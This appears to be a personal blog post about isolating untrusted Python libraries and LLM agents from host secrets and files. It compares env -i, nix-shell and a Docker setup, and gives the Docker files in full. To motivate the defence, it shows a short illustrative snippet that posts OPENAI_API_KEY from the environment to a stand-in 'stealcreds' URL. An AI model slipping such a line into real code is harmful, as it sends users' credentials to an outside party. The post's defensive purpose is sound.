 ```yaml
---
title: "Sandboxed Python Environment"
date: 2024-01-20T22:53:12-05:00
draft: false
toc: true
tags:
- language_models
- python
- security
- nix
- docker
github_url: https://github.com/danielcorin/toys/tree/main/sandboxed_python
---
```


Disclaimer: I am not a security expert or a security professional.

I've tried out many new AI/LLM libraries in the past year.
Many of these are written in Python.
While trying out new and exciting software is a lot of fun, it's also important to be mindful about what code you allow to run on your system.
Even if code is open source, it's still *possible* that the cool open source library you installed includes code like

```python
import httpx
import os

httpx.post(
    'https://someoneswebsite.com/stealcreds',
    data={'key': os.environ.get("OPENAI_API_KEY")},
)
```

I strongly recommend vetting any libraries you use, using separate API keys per app and setting a spend cap on OpenAI in case your key is compromised.
However, your `OPENAI_API_KEY` isn't all you need to worry about.
Python code (including dependencies) has access to your entire `os.environ`.
It's somewhat common to set environment variables for the shell to be available system wide.
Zsh has a dedicated file that gets sourced when the shell starts up (`.zshenv`).
So if you hypothetically had `GITHUB_API_TOKEN` set in your environment, some open source library could send that secret to its own server and gain access to your stuff.

Thankfully, over time, open source libraries *usually* are scrutinized to the degree that this type of credential stealing becomes more difficult to execute or scale.
However, with the advent of agent-like, language-model-based systems, certain libraries are now asking us to allow them to execute system commands on our behalf.
While many of these require user approval, some have automatic approval capabilities, allowing a language model to roam freely among your system.
If you're reading this article, you probably already know this isn't an awesome idea.

## Some trial and error

I tried several approaches to solve this problem before I identified one that seemed to address most of my concerns.
My goal was to find a safe setup that expected code to use a language model to execute code, peek at my environment or poke around the file system.

### Trying out env

My initial inclination was to try and clear out my environment variables to protect against a program trying to steal my secrets.
The `env -i` command can execute a shell command with an empty environment.
Unfortunately, this approach removes too much of what is needed to run Python, so it wasn't viable.

```sh
❯ env -i python run.py
env: python: No such file or directory
```

### Trying out nix

[Nix](https://nixos.org/) seemed like another possible candidate that could manage an independent version of Python and my dependencies
After a bit of searching, I found a way to create a shell with a nix-specified environment using `nix-shell`.
Loosely following instructions from [this article](https://churchman.nl/2019/01/22/using-nix-to-create-python-virtual-environments/), I created a `shell.nix` file with the following contents

```nix
{ nixpkgs ? import <nixpkgs> {}, pythonVersion ? "python3" }:

nixpkgs.mkShell {
  buildInputs = [
    (nixpkgs.${pythonVersion})
    (nixpkgs.python3Packages.numpy)
    (nixpkgs.python3Packages.openai)
  ];

  shellHook = ''
    echo "Welcome to your Python development environment."
  '';
}
```

I ran `nix-shell` from the same directory, which put me in a shell (within my shell) with a specific version of Python and my specified dependencies installed.

```sh
❯ nix-shell
Welcome to your Python development environment.

❯ which python
/nix/store/<...>-python3-3.11.7/bin/python

❯ python
Python 3.11.7 ...
Type "help", "copyright", "credits" or "license" for more information.
>>> import openai
>>> import numpy
>>>
```
Nix worked as advertised, but I realized this approach didn't provide isolation from my environment variables or my system.
Any Python code I ran from the within the nix shell could still read my environment variables or mess with my host file system if it was malicious.

Nix also has the ability to run a `pure` shell, which per the [docs](https://nixos.org/manual/nix/unstable/command-ref/nix-shell.html#options), will clear most of the environment variables.
I tried this out but it quickly became apparent it was too stripped down for what I was looking for.
It also still had host file system access.

```sh
❯ nix-shell --pure
Welcome to your Python development environment.

[nix-shell:~/dev/try/try_wrapper]$ which python
bash: which: command not found
```

## Using Docker

Given the two main constraints

- host environment variable protection
- host file system protection

I moved on to try and find an approach using Docker, which I knew to provide better file system isolation and an independent set of environment variables.
This approach has become the one I use when I want to try out a new library to get a sense of its capabilities while being mindful of my system's privacy.

Here is how it works.
First, I created a new project with the following files and contents

```text
.
├── .env
├── Dockerfile
├── Makefile
├── requirements.txt
└── run.py
```

`.env`
```env
OPENAI_API_KEY=<your key>
# any other variables
```

`Dockerfile`
```Dockerfile
FROM python:slim
WORKDIR /usr/src/app
COPY *.py /usr/src/app
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt
CMD ["python", "./run.py"]
```

`run.py`
```python
import os
from openai import OpenAI
from dotenv import load_dotenv

load_dotenv()

OPENAI_API_KEY = os.environ.get("OPENAI_API_KEY")

client = OpenAI(api_key=OPENAI_API_KEY)

stream = client.chat.completions.create(...)
# the rest of the code
```

`requirements.txt`
```text
openai
python-dotenv
# any other libraries you want to install
```

`Makefile`
```make
.PHONY: run
run:
	docker build -t run_script . && docker run -it --env-file .env run_script
```

With this setup, I added my environment variables to `.env`, my dependencies to `requirements.txt`, my code to `run.py` and to run it all, `make run`, which builds and runs the container defined in `Dockerfile`.

It's not the easiest or the cleanest approach for ongoing development of a project, but it provides a reasonable way to sandbox and isolate new code you want to try out that your don't necessarily trust.
I did several hours of research to find an approach I was satisfied with but I suspect there are other good options out there.
I would love to hear from you if you have an approach you like.

You can find the code from this post [here](https://github.com/danielcorin/toys/tree/main/sandboxed_python).
